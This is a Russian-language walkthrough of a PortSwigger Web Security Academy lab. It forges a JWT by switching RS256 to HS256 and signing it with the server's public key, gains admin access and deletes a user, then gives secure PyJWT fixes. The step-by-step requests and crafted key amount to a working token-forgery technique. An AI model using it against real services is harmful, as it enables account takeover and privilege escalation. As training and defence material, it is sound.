







## Lab: JWT authentication bypass via algorithm confusion

**Платформа:** PortSwigger Web Security Academy  
**Категория:** JWT (JSON Web Token)  
**Сложность:** Expert  
**Дата:** 2026-08-19

---

## TL;DR

Приложение использует надёжную пару ключей RSA (RS256) для подписи
и проверки JWT. Из-за недостатка реализации сервер не проверяет
строго, каким алгоритмом должна быть подписана сессия — он доверяет
полю `alg` из заголовка токена.

Получив публичный ключ сервера через стандартный эндпоинт, изменив
алгоритм токена на симметричный HS256 и подписав его HMAC-SHA256,
используя байты публичного RSA-ключа в качестве секрета, удалось
подменить пользователя на administrator, получить доступ к `/admin`
и удалить пользователя carlos.

---

## Описание уязвимости

В норме RS256 и HS256 — принципиально разные схемы:

```
RS256 (асимметричная):
  Подпись   = RSA_Sign(data, private_key)
  Проверка  = RSA_Verify(signature, public_key)

HS256 (симметричная):
  Подпись   = HMAC_SHA256(data, secret_key)
  Проверка  = HMAC_SHA256(data, secret_key) == signature
```

Публичный ключ RSA **не является секретом** — он специально
публикуется, чтобы кто угодно мог проверить подпись. Уязвимость
возникает, если серверная библиотека проверки JWT принимает
алгоритм проверки **из заголовка самого токена**, а не использует
жёстко заданный на своей стороне алгоритм:

```python
# УЯЗВИМЫЙ псевдокод сервера
alg = header["alg"]          # алгоритм берётся из токена
key = get_key_for(alg)       # для RS256 - публичный ключ,
                              # но библиотека может использовать
                              # тот же key и для HS256 как секрет
verify(token, key, algorithm=alg)
```

Если сервер ожидал RS256 (и хранит для этой цели публичный ключ),
но клиент присылает токен с `alg: HS256` — некоторые JWT-библиотеки
просто используют имеющийся у них "ключ" (публичный RSA-ключ,
представленный как байтовая строка) в качестве **HMAC-секрета**.

```
Получили JWT с заголовком alg = HS256
        │
        ▼
Сервер ожидал RS256, но доверяет alg из токена
        │
        ▼
Использует хранящийся публичный RSA-ключ
как секрет для HMAC-SHA256
        │
        ▼
Проверяет подпись HMAC этим "секретом"
        │
        ▼
Подписи совпали?
        │
   Да ──┴── Нет
   │          │
JWT принят   401
```

Поскольку **публичный ключ доступен атакующему открыто** (через
стандартный эндпоинт JWKS/сертификата), атакующий может точно так
же вычислить HMAC-SHA256 с этим же значением в качестве секрета —
и подпись совпадёт с той, что ожидает сервер.

Эта атака называется **algorithm confusion** (также известна как
RS256→HS256 key confusion / downgrade attack).

---

## Разведка

### Шаг 1 — Получение JWT

Вошла в приложение под пользователем:

```
wiener:peter
```

Перехватила запрос к своему аккаунту.

```http
GET /my-account HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=<JWT>
```

В качестве значения cookie использовался JWT.


### Шаг 2 — Анализ заголовка токена

Декодировала JWT и увидела в заголовке:

```json
{
  "kid": "7ed90592-94b6-404b-bbb2-74f86cb5b3f3",
  "typ": "JWT",
  "alg": "RS256"
}
```

Алгоритм асимметричный (RS256). Пара ключей RSA описана в задании
как надёжная — подобрать приватный ключ переборе не получится,
нужен другой вектор: смена алгоритма проверки.


### Шаг 3 — Получение публичного ключа сервера

Публичный ключ доступен через стандартный эндпоинт:

```http
GET /jwks.json HTTP/2
Host: LAB-ID.web-security-academy.net
```

Получила JWKS с публичным RSA-ключом сервера:

```json
{
  "keys": [
    {
      "kty": "RSA",
      "e": "AQAB",
      "use": "sig",
      "kid": "7ed90592-94b6-404b-bbb2-74f86cb5b3f3",
      "alg": "RS256",
      "n": "7RRZRI49na8izmukoSLylP-oylx8F4uWtnHV9M9Zg3hW5whYMpCjrViMlK30vaptYsddNqIXVUzCutX6QWw2tuF0M662Pd3mZN7CSYIwo7sgDskiuZtHauuSjV_We_mk7K3ng0DclcKtAIogoKrAKT0CjEJPZYJdUxxIuYgtKiVSKFl5eIZVyskxwELxXa7rxT68YpncABjjAp2E0uDJqd7u2tjwuUL0SsCLKvIO4uHz0verScYHqD9YX-fN5wmjRdSKTJbRJMFpdA_kcCdEUb-hA38uLnhcsDgFLRdw4l2o2NmVH7g5KaOzk3U6_yagYAaq9_fJ7nsi8ZsAo-KY0Q"
    }
  ]
}
```

`kid` в JWKS совпадает с `kid` из заголовка токена wiener — это
подтверждает, что найден именно тот ключ, который использует
сервер для проверки подписи.


### Шаг 4 — Проверка доступа к панели администратора

Изменила путь запроса:

```http
GET /admin HTTP/2
Cookie: session=<JWT>
```

Сервер ответил отказом в доступе,
так как токен принадлежал пользователю wiener.


---

## Эксплуатация

### Шаг 5 — Импорт публичного ключа в JWT Editor

В Burp Suite открыла JWT Editor Keys → **Import** и вставила JWK
публичного ключа из шага 3.


### Шаг 6 — Получение публичного ключа в формате PEM

Кликнула на импортированный ключ → **Copy Public Key as PEM**:

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA7RRZRI49na8izmukoSLy
lP+oylx8F4uWtnHV9M9Zg3hW5whYMpCjrViMlK30vaptYsddNqIXVUzCutX6QWw2
tuF0M662Pd3mZN7CSYIwo7sgDskiuZtHauuSjV/We/mk7K3ng0DclcKtAIogoKrA
KT0CjEJPZYJdUxxIuYgtKiVSKFl5eIZVyskxwELxXa7rxT68YpncABjjAp2E0uDJ
qd7u2tjwuUL0SsCLKvIO4uHz0verScYHqD9YX+fN5wmjRdSKTJbRJMFpdA/kcCdE
Ub+hA38uLnhcsDgFLRdw4l2o2NmVH7g5KaOzk3U6/yagYAaq9/fJ7nsi8ZsAo+KY
0QIDAQAB
-----END PUBLIC KEY-----
```



### Шаг 7 — Создание симметричного ключа из PEM

Закодировала весь текст PEM (включая заголовки `BEGIN/END` и
переносы строк) в base64url и подставила результат в поле `k`
нового симметричного ключа:

```json
{
  "kty": "oct",
  "kid": "7ed90592-94b6-404b-bbb2-74f86cb5b3f3",
  "k": "LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUE3UlJaUkk0OW5hOGl6bXVrb1NMeQpsUCtveWx4OEY0dVd0bkhWOU05WmczaFc1d2hZTXBDanJWaU1sSzMwdmFwdFlzZGROcUlYVlV6Q3V0WDZRV3cyCnR1RjBNNjYyUGQzbVpON0NTWUl3bzdzZ0Rza2l1WnRIYXV1U2pWL1dlL21rN0szbmcwRGNsY0t0QUlvZ29LckEKS1QwQ2pFSlBaWUpkVXh4SXVZZ3RLaVZTS0ZsNWVJWlZ5c2t4d0VMeFhhN3J4VDY4WXBuY0FCampBcDJFMHVESgpxZDd1MnRqd3VVTDBTc0NMS3ZJTzR1SHowdmVyU2NZSHFEOVlYK2ZONXdtalJkU0tUSmJSSk1GcGRBL2tjQ2RFClViK2hBMzh1TG5oY3NEZ0ZMUmR3NGwybzJObVZIN2c1S2FPemszVTYveWFnWUFhcTkvZko3bnNpOFpzQW8rS1kKMFFJREFRQUIKLS0tLS1FTkQgUFVCTElDIEtFWS0tLS0t"
}
```

Это ключевой момент атаки: сервер, ожидающий проверить подпись
HMAC-ключом, получит именно эти байты — то есть публичный RSA-ключ,
представленный как обычная строка — и посчитает его валидным
секретом.


### Шаг 8 — Подмена payload и алгоритма

Открыла перехваченный запрос к `/my-account` во вкладке
**JSON Web Token**.

Изменила claim:

```json
{
  "sub": "administrator"
}
```

Изменила алгоритм в заголовке:

```json
{
  "kid": "7ed90592-94b6-404b-bbb2-74f86cb5b3f3",
  "typ": "JWT",
  "alg": "HS256"
}
```


### Шаг 9 — Подпись токена

Внизу вкладки JSON Web Token нажала **Sign**, выбрала симметричный
ключ, созданный на шаге 7 (с закодированным PEM в `k`).

Burp подписал токен HMAC-SHA256, используя байты публичного
RSA-ключа сервера как секрет.

### Шаг 10 — Получение панели администратора

Отправила запрос с новым токеном:

```
GET /admin HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=<токен HS256, подписанный публичным ключом>
```

Сервер прочитал `alg: HS256` из заголовка, доверился ему, взял
хранящийся у себя публичный RSA-ключ и использовал его как секрет
для HMAC-проверки — подпись совпала, так как атакующий подписал
токен ровно тем же значением. Токен принят как подлинный, доступ
к панели администратора получен.


### Шаг 11 — Удаление пользователя

Из HTML страницы получила ссылку:

```
GET /admin/delete?username=carlos
```

Отправила запрос.

Пользователь был удалён,
лабораторная работа успешно решена.


---

## Итог

```
JWT пользователя wiener (RS256)
        │
        ▼
Получение публичного ключа сервера через /jwks.json
        │
        ▼
Импорт ключа в JWT Editor, экспорт как PEM
        │
        ▼
Кодирование PEM в base64url -> k симметричного ключа
        │
        ▼
Изменение claim sub -> administrator
        │
        ▼
Изменение alg RS256 -> HS256
        │
        ▼
Подпись токена HMAC-SHA256 с байтами публичного ключа
        │
        ▼
GET /admin
(сервер доверяет alg из токена и использует публичный
ключ как HMAC-секрет)
        │
        ▼
Доступ администратора
        │
        ▼
Удаление пользователя carlos
```

### Почему разработчики делают такую ошибку

Многие JWT-библиотеки исторически поддерживают несколько алгоритмов
в одном вызове проверки и принимают алгоритм из заголовка токена,
чтобы упростить интеграцию (не нужно явно указывать алгоритм на
стороне проверяющего кода). Это удобно, но опасно: сервер должен
сам решать, каким алгоритмом проверять токен, а не спрашивать об
этом сам токен.

```
Библиотека поддерживает и RS256, и HS256 "из коробки"
→ разработчик передаёт один и тот же key-объект в decode()

Алгоритм проверки берётся из header["alg"]
→ токен сам диктует, как его нужно проверять

Публичный RSA-ключ трактуется библиотекой
как просто байтовая строка при HS256
→ он и становится HMAC-секретом
```

### Где встречается в реальности

```
Legacy JWT-библиотеки с "гибким" decode()
→ по умолчанию разрешают algorithms=["RS256","HS256"] одновременно

Микросервисы с общим кодом валидации токенов
→ один и тот же key передаётся без учёта, для какого alg он предназначен

SSO-интеграции с недостаточно строгой конфигурацией
→ сервер не фиксирует ожидаемый алгоритм явно в коде
```

Во всех этих случаях доверие полю `alg` из токена, а не жёстко
заданному на сервере алгоритму, позволяет атакующему превратить
публичный (не секретный) ключ проверки в оружие для подделки
токенов и эскалации привилегий.

---

## Защита

```python
# УЯЗВИМО
# Алгоритм проверки берётся из токена, ключ передаётся без учёта alg
header = jwt.get_unverified_header(token)
jwt.decode(token, PUBLIC_KEY, algorithms=[header["alg"]])
```

```python
# БЕЗОПАСНО
# Алгоритм жёстко зафиксирован на сервере, alg из токена игнорируется
jwt.decode(
    token,
    PUBLIC_KEY,
    algorithms=["RS256"],  # единственный разрешённый алгоритм
)
```

Дополнительно:

- всегда явно задавать разрешённый алгоритм (или короткий список
  алгоритмов одного типа — только асимметричные или только
  симметричные) на стороне сервера, никогда не брать его из токена;
- не использовать один и тот же объект ключа для разных типов
  алгоритмов (отдельно RSA-ключи для RS*, отдельно секреты для HS*);
- обновлять JWT-библиотеки до версий, которые по умолчанию требуют
  явного указания алгоритма при декодировании;
- логировать и мониторить попытки использовать неожиданный `alg`
  в заголовке входящих токенов — это явный индикатор атаки.
